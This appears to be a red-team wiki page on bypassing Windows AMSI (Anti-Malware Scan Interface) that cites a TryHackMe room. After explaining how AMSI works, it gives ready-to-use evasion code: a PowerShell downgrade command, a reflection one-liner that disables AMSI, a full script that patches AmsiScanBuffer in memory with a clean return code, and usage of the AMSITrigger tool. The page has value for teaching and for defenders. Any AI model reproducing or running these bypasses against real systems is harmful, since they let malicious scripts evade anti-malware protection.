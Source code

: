 # AMSI bypass

## Theory

With the release of PowerShell, Microsoft released [AMSI (Anti-Malware Scan Interface)](https://learn.microsoft.com/en-us/windows/win32/amsi/antimalware-scan-interface-portal). It is a runtime detection measure shipped natively with Windows and is an interface for other products and solutions.

### How it works ?

AMSI (Anti-Malware Scan Interface) is a PowerShell security feature that will allow any applications or services to integrate directly into anti-malware products. Defender instruments AMSI to scan payloads and scripts before execution inside the .NET runtime. The [CLR (Common Language Runtime)](https://learn.microsoft.com/en-us/dotnet/standard/clr) and [DLR (Dynamic Language Runtime)](https://learn.microsoft.com/en-us/dotnet/framework/reflection-and-codedom/dynamic-language-runtime-overview) are the runtimes for .NET.

AMSI is fully integrated into the following Windows components:

* User Account Control, or UAC
* PowerShell
* Windows Script Host (wscript and cscript)
* JavaScript and VBScript
* Office VBA macros

The below diagram depicts how data is dissected as it flows through the layers and what DLLs/API calls are being instrumented.\
![](<../../../.gitbook/assets/35e16d45ce27145fcdf231fdb8dcb35e (1).png>)

This is important to understand the complete model of AMSI, but we can break it down into core components, shown in the diagram below.\
![](../../../.gitbook/assets/efca9438e858f0476a4ffd777c36501a.png)

{% hint style="danger" %}
Note: AMSI is only instrumented when loaded from memory when executed from the CLR. It is assumed that if on disk MsMpEng.exe (Windows Defender) is already being instrumented.
{% endhint %}

## Practice

To find where AMSI is instrumented, we can use [InsecurePowerShell](https://github.com/cobbr/InsecurePowerShell) maintained by [Cobbr](https://github.com/cobbr) which is a GitHub fork of PowerShell with security feature removed, and compare it with an [offical PowerShell GitHub](https://github.com/PowerShell/PowerShell).

### PowerShell Downgrade

The PowerShell downgrade attack is a very low-hanging fruit that allows attackers to modify the current PowerShell version to remove security features.\
Most PowerShell sessions will start with the most recent PowerShell engine, but attackers can manually change the version with a one-liner. By "downgrading" the PowerShell version to 2.0, you bypass security features since they were not implemented until version 5.0.

{% tabs %}
{% tab title="Powershell" %}
We can simply use this command to downgrad powershell. This attacked is used in popular tools such as [Unicorn](https://github.com/trustedsec/unicorn)

```bash
PowerShell -Version 2
```

{% hint style="danger" %}
Since this attack is such low-hanging fruit and simple in technique, there are a plethora of ways for the blue team to detect and mitigate this attack.
{% endhint %}
{% endtab %}
{% endtabs %}

### PowerShell Reflection

Reflection allows a user or administrator to access and interact with .NET assemblies. It can be abused to modify and identify information from valuable DLLs.\
The AMSI utilities for PowerShell are stored in the **AMSIUtils** .NET assembly located in **System.Management.Automation.AmsiUtils**.

{% tabs %}
{% tab title="Powershell" %}
Matt Graeber published a one-liner to accomplish the goal of using Reflection to modify and bypass the AMSI utility. This one-line can be seen in the code block below.

```bash
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```
{% endtab %}
{% endtabs %}

### Patching AMSI

AMSI is primarily instrumented and loaded from **amsi.dll**. This dll can be abused and forced to point to a response code we want. The **AmsiScanBuffer** function provides us the hooks and functionality we need to access the pointer/buffer for the response code.\
AmsiScanBuffer is vulnerable because amsi.dll is loaded into the PowerShell process at startup; our session has the same permission level as the utility. AmsiScanBuffer will scan a "buffer" of suspected code and report it to amsi.dll to determine the response. We can control this function and overwrite the buffer with a clean return code.

{% tabs %}
{% tab title="C#" %}
At a high-level AMSI patching can be broken up into four steps,

* Obtain handle of amsi.dll
* Get process address of AmsiScanBuffer
* Modify memory protections of AmsiScanBuffer
* Write opcodes to AmsiScanBuffer

```bash
$MethodDefinition = "
    [DllImport(`"kernel32`")] // Import DLL where API call is stored
    public static extern IntPtr GetProcAddress( // API Call to import
        IntPtr hModule, // Handle to DLL module
        string procName // function or variable to obtain
    );

    [DllImport(`"kernel32`")]
    public static extern IntPtr GetModuleHandle(
        string lpModuleName // Module to obtain handle
    );

    [DllImport(`"kernel32`")]
    public static extern bool VirtualProtect(
        IntPtr lpAddress, // Address of region to modify
        UIntPtr dwSize, // Size of region
        uint flNewProtect, // Memory protection options
        out uint lpflOldProtect // Pointer to store previous protection options
    );
";
//Load the API calls
$Kernel32 = Add-Type -MemberDefinition $MethodDefinition -Name 'Kernel32' -NameSpace 'Win32' -PassThru;

//Identify where amsi.dll is located and how to get to the function
$handle = [Win32.Kernel32]::GetModuleHandle(
	'amsi.dll' // Obtains handle to amsi.dll
);
[IntPtr]$BufferAddress = [Win32.Kernel32]::GetProcAddress(
	$handle, // Handle of amsi.dll
	'AmsiScanBuffer' // API call to obtain
);

//Modify the memory protection of the AmsiScanBuffer process region.
[UInt32]$Size = 0x5; // Size of region
[UInt32]$ProtectFlag = 0x40; // PAGE_EXECUTE_READWRITE
[UInt32]$OldProtectFlag = 0; // Arbitrary value to store options
[Win32.Kernel32]::VirtualProtect(
	$BufferAddress, // Point to AmsiScanBuffer
	$Size, // Size of region
	$ProtectFlag, // Enables R or RW access to region
	[Ref]$OldProtectFlag // Pointer to store old options
); 

//Overwrite the buffer
$buf = [Byte[]]([UInt32]0xB8,[UInt32]0x57, [UInt32]0x00, [Uint32]0x07, [Uint32]0x80, [Uint32]0xC3);

[system.runtime.interopservices.marshal]::copy(
	$buf, // Opcodes/array to write
	0, // Where to start copying in source array 
	$BufferAddress, // Where to write (AsmiScanBuffer)
	6 // Number of elements/opcodes to write
); 
```
{% endtab %}
{% endtabs %}

### AMSI Bypass Tools

While it is preferred to use the previous methods shown, attackers can use other automated tools to break AMSI signatures or compile a bypass.

{% tabs %}
{% tab title="AMSI.Fail" %}
[amsi.fail](https://amsi.fail/) will compile and generate a PowerShell bypass from a collection of known bypasses.\
From amsi.fail, "AMSI.fail generates obfuscated PowerShell snippets that break or disable AMSI for the current process. The snippets are randomly selected from a small pool of techniques/variations before obfuscating. Every snippet is obfuscated at runtime/request so that no generated output share the same signatures."
{% endtab %}

{% tab title="AMSITrigger" %}
[AMSITrigger](https://github.com/RythmStick/AMSITrigger) allows attackers to automatically identify strings that are flagging signatures to modify and break them. This method of bypassing AMSI is more consistent than others because you are making the file itself clean.

```bash
C:\Users\v4resk\Tools>AmsiTrigger_x64.exe -i "bypass.ps1" -f 3
```
{% endtab %}
{% endtabs %}

## References

{% embed url="https://tryhackme.com/room/runtimedetectionevasion" %}

